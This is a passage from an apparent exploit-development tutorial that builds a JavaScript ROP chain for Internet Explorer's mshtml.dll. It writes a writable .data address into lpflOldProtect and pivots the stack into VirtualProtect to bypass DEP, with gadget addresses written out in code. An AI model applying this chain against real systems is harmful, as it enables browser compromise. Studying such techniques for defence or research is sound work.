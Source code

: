 Great! The last thing we need to to just overwrite the last parameter placeholder, `lpflOldProtect`, with any writable address. The `.data` section of a PE will have memory that is readable and writable. This is where we will go to look for a writable address. 

<img src="{{ site.url }}{{ site.baseurl }}/images/browser57.png" alt="">

The end of most sections in a PE contain NULL bytes, and that is our target here, which ends up being the address `7515c010`. The image above shows us the `.data` section begins at `mshtml+534000`. We can also see it is `889C` bytes in size. Knowing this, we can just access `.data+8000`, which should be near the end of the section.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser58.png" alt="">

The routine here is identical to the previous two ROP routines, except there is no negation operation that needs to take place. We simply just need to pop this address into EAX and leverage our same, trusty arbitrary write gadget to overwrite the last parameter placeholder.

```js
rop += "\ubfd3\u750c";                     // pop eax ; ret (750cbfd3) (mshtml.dll) Place a writable .data section address into EAX for lpflOldPRotect
rop += "\uc010\u7515";  				   // Value from above (7515c010)
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpflOldProtect parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpflOldProtect parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpflOldProtect parameter placeholder
rop += "\uc4d4\u74e4";                     // inc ecx ; ret (74e4c4d4) (mshtml.dll) Increment ECX to get the stack address containing the lpflOldProtect parameter placeholder
rop += "\u8d86\u750c";                     // mov dword [ecx], eax ; ret (750c8d86) (mshtml.dll) Arbitrary write to overwrite stack address with parameter placeholder for lpflOldProtect, with an address that is writable
````

Awesome! We have fully instrumented our call to `VirtualProtect`. All that is left now is to kick off execution by returning into the `VirtualProtect` address on the stack. TO do this, we will just need to load the stack address which points to `VirtualProtect` into EAX. From there, we can execute an `xchg eax, esp ; ret` gadget, just like at the beginning of our ROP chain, to return back into the `VirtualProtect` address, kicking off our function call. We know currently ECX contains the stack address pointing to the last parameter, `lpflOldProtect`.

<img src="{{ site.url }}{{ site.baseurl }}/images/browser59.png" alt="">

We can see that our current value in ECX is `0x14` bytes in front of the `VirtualProtect` stack address. This means we can leverage several `dec ecx ; ret` ROP gadgets to get ECX `0x14` bytes lower. From there, we can then move the ECDX register into the EAX register, where we can perform the exchange.

```js
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
rop += "\ue715\u74fb";                     // dec ecx ; ret (74fbe715) (mshtml.dll) Get ECX to the location on the stack containing the call to VirtualProtect
```